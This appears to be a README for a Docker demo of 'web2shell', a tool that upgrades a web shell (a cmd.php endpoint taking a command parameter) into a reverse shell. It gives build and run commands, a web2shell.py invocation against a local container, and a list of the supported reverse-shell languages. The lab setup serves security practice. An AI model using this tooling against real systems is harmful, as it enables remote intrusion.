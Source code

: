 # web2shell docker demo

1. Build the docker image (`docker build . --tag webshell`)
2. Run the image (`docker run -it -p 8080:80 webshell`)
3. Use web2shell to secure a remote connection on the docker0 interface (`python3 web2shell.py  --url http://127.0.0.1:8080/cmd.php?cmd=SHELL --interface docker0`)

Note: This Docker container has the binaries for all supported reverse shells. They are as follows:

- Perl
- PHP
- Python
- Ruby
- Golang
